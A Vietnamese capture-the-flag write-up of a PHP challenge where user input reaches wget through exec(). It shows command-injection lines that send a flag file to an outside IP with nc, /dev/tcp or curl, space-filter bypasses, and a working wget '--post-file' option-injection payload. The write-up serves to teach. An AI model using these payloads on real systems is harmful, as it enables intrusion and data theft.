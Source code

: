 # Problem
```sh
This new service checks if your flags are valid. What could possibly go wrong?

Target: http://challs.xmas.htsp.ro:3001/
Author: yakuhito
```
# Solution

- Đầu tiên, sau khi kết nối đến địa chỉ đề cho, chúng ta có thể thấy được ngay source code của file [index.php](problem/index.php).
<img src=assets/p1.png>

- Sau khi đọc code, ta có thể thấy ngay yêu cầu của challenge này như sau:
	- Nhận 1 tham số có tên là `flag` thông qua phương thức `GET`.
	- Sau đó sẽ vào hàm **checkFlag** để kiểm tra chuỗi của chúng ta nhập vào, nếu có bất kì 1 kí tự nào trong chuỗi của chúng ta nhập vào không thuộc chuỗi này (cả lowercase và uppercase) **'FAKE-X-MAS{d1s_i\$_a_SaMpL3_Fl4g_n0t_Th3_c0Rr3c7_one_karen_l1k3s_HuMu5.0123456789}'** thì hàm **checkFlag** sẽ trả về `False` và kết thúc chương trình.
	- Nếu chuỗi của chúng ta nhập làm cho hàm **checkFlag** trả về `True` thì chúng ta sẽ đến được hàm **getFlag**. Ở hàm này, chúng ta được phép thực thi lệnh thông qua hàm **exec()** của `php`, cụ thể là `"wget -q -O - https://kuhi.to/flag/" . $flag` với biến `$flag` chính là chuỗi chúng ta nhập vào sau khi đã được kiểm tra ở hàm **checkFlag**.

- Tiếp theo chúng ta sẽ phân tích bài toán:
	- Đầu tiên để có thể dễ dàng debug (custom lại file source) hoặc build lại chương trình này để test (trường hợp sau khi server của challenge đã đóng) thì có thể sử dụng file [index.php](problem/index.php) đề cho và dùng chương trình `php` để chạy chương trình cục bộ.
<img src=assets/p4.png>.

	- Nhìn vào source code, chúng ta sẽ nhanh chóng nhận ra `flag` nằm trong file `flag.php`, cùng thư mục với file `index.php`.
	- Dựa theo `output`của chương trình, chúng ta hoàn toàn không lấy được `flag`, cụ thể ở hàm **getFlag** chúng ta chỉ nhận được `Nope` hoặc `Maybe`. Cho nên hướng giải quyết sẽ là đẩy `flag` ra ngoài internet thông qua hàm **exec()**. Đến đây sẽ có 3 hướng giải quyết cho challenge này.

- Hướng 1: **Command Injection**
	- Như chúng ta có thể thấy biến `$command = "wget -q -O - https://kuhi.to/flag/" . $flag` hoàn toàn có thể cho phép chúng ta thực hiện `command injection`, cụ thể là `command1;command2|command3` với `command1` là chương trình `wget` đề cho, `command2` dùng để đọc nội dung file flag, `command3` dùng để chuyển output của `command2` ra ngoài internet. Đại loại mô hình chung sẽ là **wget -q -O - https://kuhi.to/flag/ ; cat flag.php | nc 9.9.9.9 9999** với `9.9.9.9` và `9999` là địa chỉ ip và port của chúng ta ở ngoài internet. Đến đây chúng ta sẽ cùng giải quyết 1 số vấn đề:
	- Đọc file: để đọc được file flag.php chúng ta có thể dùng `cat` (ngoài ra có thể dùng: `tac, head, tail, sort, nl, cut, awk, sed, base64...` sở dĩ có chú thích này vì có cũng có 1 bài tương tự nhưng bài đó họ xóa hết tất cả các chương trình dùng để đọc file nên chúng ta phải tùy cơ ứng biến thôi). Tuy nhiên ở hàm **checkFlag** lại không cho phép chúng ta nhập kí tự `space`, nhưng không sao, đối với `shell injection` thì cái này bypass cũng dễ. 
- `cat${IFS}flag.php`
- `cat<flag.php`
- `{cat,flag.php}`
	- Ở đây vì hàm **checkFlag** chỉ cho phép nhập 7 kí tự đặc biệt này `-{_\$.}`.
nên giải pháp sẽ là thay kí tự `space` bằng `${IFS}`.
	- Tiếp theo đến đoạn kết nối ra internet thì chúng ta có thể dùng `nc 9.9.9.9 9999`, tuy nhiên kí tự `|` lại không cho được phép. Sau 1 hồi search google thì phát hiện cách này: **cat flag > /dev/tcp/9.9.9.9/9999**, trong đó kí tự ">" sẽ được thay bằng biến môi trường `${PS2}`, kí tự `/` tuy không được phép nhưng có thể thay bằng `${HOME}` (hoặc **${HOME:0:1}**), tuy nhiên cách này cũng fail vì kí tự `>` từ biến môi trường `${PS2}` được xem như là 1 file chứ không phải là kí tự `redirect`. Đến đây chúng ta fail ở việc kết nối 2 command lại với nhau. Vậy thử dụng 1 command kiểu như là:
```sh
curl 9.9.9.9/`cat flag.php`
wget 9.9.9.9/$(base64 flag.php)
```
	- Nhưng cũng đều fail nốt vì 2 kí tự "(" và "\`" đều bị filter hết. Thật ra với cách này mình fail ngay từ đầu vì nghĩ rằng kí tự `\n` có thể làm kí tự phân cách giữa `command1` và `command2`. Nói chúng bị hàm **checkFlag** lọc kí tự như thế thì đúng là khó thở thật. 

- Hướng 2: Bypass hàm **checkFlag**
	- Đầu tiên dễ nhìn thấy nhất, là hàm `php strlen`, liệu có cách nào để hàm này trả về giá trị nhỏ hơn giá trị thực để nó không kiểm tra được hết các kí tự chúng ta nhập vào không? Đến đây chợt nghĩ đến kí tự **\x00** và **overflow integer** nhưng sau 1 hồi test đều fail :TT 
	- Tiếp tục trong hàm **checkFlag** còn hàm nào thì tìm lỗ hổng của hàm đấy thôi. Tiếp đến là hàm `strpos`, thèn này cũng có 1 bug cho phép bypass việc lọc kí tự nhưng đòi hỏi phải có kí tự `%`, mà kí tự này cũng lại bị chặn :TT
	- Cứ thế tương tự cho các hàm tiếp theo mà search tiếp nhưng chẳng thu được kết quả gì :TT 

- Hướng 3: Tận dụng **wget** đề cho
```sh
$command = "wget -q -O - https://kuhi.to/flag/" . $flag;
$cmd_output = array();
exec($command, $cmd_output);
```
	- Nhìn nhận thật kĩ thì `wget` chính là command mà chúng ta cần tìm. Đối với mô hình chung thì việc chèn `command injection` luôn là lựa chọn hàng đầu, tuy nhiên đối với bài đặc biệt như challenge này, `wget` không chỉ giúp chúng ta kết nối ra ngoài internet, mà còn có thể upload được file nên cái chúng ta làm không phải là chèn thêm `command` mà là chèn thèn `option`. Cụ thể sẽ là **wget -q -O - https://kuhi.to/flag/ 9.9.9.9 --post-file flag.php**
	- Và đây là payload và kết quả:
<img src=assets/p2.png>

<img src=assets/p3.png>

P/S: Nói chung qua challenge này được ôn lại `command injection` cũng nhiều, chỉ là vì không liên quan nên không nói cụ thể trong bài này nên đành để lại 1 số reference tại đây vậy :xD

[Shell Command Language](https://pubs.opengroup.org/onlinepubs/009604499/utilities/xcu_chap02.html)

[Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)

[Web-CTF-Cheatsheet](https://github.com/w181496/Web-CTF-Cheatsheet#%E7%A9%BA%E7%99%BD%E7%B9%9E%E9%81%8E)

[Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)


